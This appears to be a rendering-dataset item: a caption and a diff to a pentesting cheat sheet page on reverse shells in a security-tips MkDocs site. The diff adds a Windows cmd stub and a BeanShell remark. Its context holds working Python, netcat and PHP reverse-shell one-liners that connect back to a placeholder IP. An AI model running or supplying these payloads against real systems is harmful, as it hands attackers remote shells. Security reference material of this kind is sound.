

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/reverse-shell.md, in a window 1280 px wide and 1400 px high, scrolled down 295 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Add BeanShell and Windows reverse shell

````diff
--- a/docs/reverse-shell.md
+++ b/docs/reverse-shell.md
@@ -25,6 +25,11 @@ reinitialize the terminal with `reset`.
 
 ## On the remote server
 
+### Windows
+```bash
+> cmd.exe /C <cmd>
+```
+
 ### Python
 ```bash
 python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"{IP}\\",{Port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);\'
@@ -45,6 +50,9 @@ nc -e /bin/sh {IP} {PORT}
 r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
 ```
 
+This payload can also work with `BeanShell` scripts.
+
+
 ### PHP
 ```bash
 php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
````
